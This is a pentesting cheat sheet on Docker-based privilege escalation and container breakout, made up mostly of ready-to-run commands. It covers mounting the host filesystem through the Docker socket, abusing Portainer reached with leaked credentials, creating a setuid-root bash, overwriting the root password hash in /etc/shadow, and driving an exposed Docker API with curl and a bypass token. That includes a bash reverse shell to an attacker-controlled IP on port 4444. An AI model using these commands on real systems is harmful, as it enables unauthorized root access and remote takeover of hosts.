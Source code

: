 # Docker-Related Attack Vectors

### Docker Socket

* If you have user privileges in a host machine check these:&#x20;
  * Find `netstat -tunape` docker socket in localhost
  * export it to env `export DOCKER_HOST="tcp://localhost:2222"`
  * Look docker images in host machine and run it with connecting host
    * &#x20;`docker run -it -v /:/host ubuntu:20.04 bash`
    * `cd /host/`
    * `chroot ./ bash`
    * `find / -name password`



### Portainer Web UI access

* If you have portainer access, (via leaked creds or bruteforce)
  * Create privileged docker via portainer web UI&#x20;
  * Later connect there via from web ui of portainer:
    * `mount /dev/sda /mnt`
    * `cd /mnt`
    * `chroot ./ bash`
    * Then find credentials in root mounted&#x20;

### Use Case (Blocked by privileged mode but run in seccomp)

* You are user in victim machine and want to get root and blocked by docker firewall when you run `docker run -d --privileged ubuntu:latest`

Then you can run&#x20;

* `docker run -d --security-opt "seccomp=unconfined" modified-ubuntu`
* With that way we can start a container with seccomp profile set to unconfined.
*   `docker exec -it --privileged {container_id} bash`

    * `Check it with capsh --print`

    Then use [cap\_sys\_module](../container-breakouts/#cap\_sys\_module-capability) breakout technique to breakout the container.&#x20;

### Use Case (Blocked by Docker Firewall Api )

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

`cp /bin/bash /tmp/`

`docker run -it -v /tmp:/host ubuntu:18.04 bash`

in docker

`chown root:root /host/bash`

`chmod u+s /host/bash`

then `exit`

in host machine it self run&#x20;

`/tmp/bash -p`

your effective uid is 0.&#x20;

### Use Case (Blocked by Docker Firewall Api - 2 )

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

`test it with /tmp, /etc,`&#x20;

`docker run -it -v /etc:/host ubuntu:18.04 bash`

Check /host directory

then create password entry with openssl&#x20;

`openssl passwd -1 -salt abc abc`

take that string and put in /host/shadow puth that string in root place.&#x20;

then exit from docker and in host machine be root with the password that you have written in openssl command.



### Use Case (Blocked by Docker Firewall Api - 3 \[Using Docker API])

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

* When docker client is used, docker client interacts with the docker socket by using the HTTP API, the JSON data sent by docker client follows the JSON format mentioned on the docker API references. Identify the API version used by the docker client.
* [https://docs.docker.com/engine/api/v1.40/#tag/Container/operation/ContainerCreate](https://docs.docker.com/engine/api/v1.40/#tag/Container/operation/ContainerCreate)

So by sending request to docker socket we can get in contact with docker.&#x20;

Send that request with curl&#x20;

`curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create`

and it will create us a privileged container via API request

check it via

`docker ps -a`

start the container `docker start container_id`

and&#x20;

run `docker exec -it container_id bash`

now check host directory and you are in host machine.&#x20;



### Some Docker Rest API Commands that can be used

```
#Interact with the docker socket using curl and send a request to create a container.
#Specify “CAP_SYS_MODULE” value in the capability attribute.


curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d
'{"Image": "modified-ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}'
http:/v1.40/containers/create

# Don't forget to check docker port 2375 and later add that 
export DOCKER_HOST="tcp://localhost:2375"

# if you find bypass-token 
# check images

curl -X GET -H "Content-Type: application/json" -H "Bypass-Token:
Token" http://Remote_IP:2375/images/json -s | jq

# Create a container from image and mount the root file in /host directory

curl -s -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" -d '{"Image":
"wolfcms","Env":["Bypass-Token=0a46f8ef7ba0611ccb16a0aeeac618a1"],"Binds":["/:/host"]}'
http://Remote_IP:2375/containers/create | jq

#Start that container

curl -X POST -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1"
http://Remote_IP:2375/containers/0bb824614788cced1fa17ed4539477bca425b62d9d52d91
8ff3c423a3f305d56/start

# Running containers

curl -X GET -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" http://Remote_IP:2375/containers/json -s | jq

# Reverse shell bash send with curl

curl -s -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" -d '{"AttachStdin":
false,"AttachStdout":false,"AttachStderr":false,"Cmd":["bash","-c","bash -i >&
/dev/tcp/Local_IP/4444 0>&1"],"Detach":true}'
http://Remote_IP:2375/containers/0bb824614788cced1fa17ed4539477bca425b62d9d52d91
8ff3c423a3f305d56/exec | jq


#
/v2/_catalog
/v2/alpine/tags/list
/v2/alpine/manifests/latest  
curl remote_ip:port/v2/alpine/blobs/sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935 --output 1.tar


```



